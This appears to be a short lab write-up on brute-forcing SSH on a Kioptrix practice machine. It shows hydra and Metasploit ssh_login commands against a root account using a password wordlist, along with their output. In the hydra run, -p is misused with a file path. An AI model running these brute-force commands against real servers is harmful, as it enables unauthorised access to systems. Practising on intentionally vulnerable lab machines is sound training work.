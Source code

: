 ## Brute-forcing kioptrix ssh 
### 1. using hydra
```python
┌──(hyok㉿kali)-[~]
└─$ sudo hydra -l root -p /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.1.7:22 -t 4 -V                                                   

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-13 21:54:20
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking ssh://192.168.1.7:22/
[ATTEMPT] target 192.168.1.7 - login "root" - pass "/usr/share/wordlists/metasploit/unix_passwords.txt" - 1 of 1 [child 0] (0/0)
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-06-13 21:54:22
```

### 2. Using metasploit
```python
┌──(hyok㉿kali)-[~]
└─$ sudo msfconsole
msf6 > search ssh
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > options
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.1.7
RHOSTS => 192.168.1.7
msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME root
USERNAME => root
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
PASS_FILE => /usr/share/wordlists/metasploit/unix_passwords.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set THREADS 10
THREADS => 10
msf6 auxiliary(scanner/ssh/ssh_login) > set VERBOSE true
VERBOSE => true
msf6 auxiliary(scanner/ssh/ssh_login) > run

[*] 192.168.1.7:22 - Starting bruteforce
[-] 192.168.1.7:22 - Failed: 'root:admin'
[-] 192.168.1.7:22 - Failed: 'root:123456'

```

**Note** - We have set **VERBOSE** to true to see output of brute-force attempts.